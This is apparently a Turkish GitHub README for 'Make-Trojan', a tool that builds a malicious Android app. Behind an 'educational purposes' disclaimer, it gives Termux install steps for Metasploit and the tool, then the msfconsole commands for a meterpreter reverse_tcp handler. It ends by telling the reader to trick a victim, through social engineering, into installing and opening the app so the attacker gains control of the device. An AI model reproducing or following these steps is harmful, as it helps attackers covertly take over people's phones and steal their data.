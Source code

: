 # Make-Trojan
ÖNCELİKLE:Bu araç eğitim amaçlı hazırlandı.Aracın kullanımda meydana gelicek hiç bir şey sorumluluğumda değildir!
# Metasploit Kurulumu
1. apt update
2. apt upgrade
3. apt-get update
4. apt-get upgrade
5. apt install git
6. apt install wget
7. apt install curl
8. pkg install ruby -y
9. apt install root-depo
10. apt install unstable-repo
11. apt install x11-repo
12. pkg install metasploit -y
# Make-Trojan Kurulumu
1. git clone https://github.com/ByHypertext/Make-Trojan
2. pkg install python
3. cd Make-Trojan
4. python make-trojan.py
# Make-Trojan Kullanımı
Gerekli alanları doldurun ve dosyanın oluşmasını bekleyin
1. msfconsole
2. use exploit/multi/handler
3. set payload android/meterpreter/reverse_tcp
4. set LHOST (ip adresi)
5. set LPORT (port)
6. run
# Make-Trojan Çalıştırma
Cihaza bağlanmak için kurbanımıza uygulamayı sosyal mühendislik yardımıyla yükletip, bir kere tıklamasını sağlamak yeterli olacaktır. Uygulamayı silmesi durumunda cihaza olan bağlantı kesilecektir!
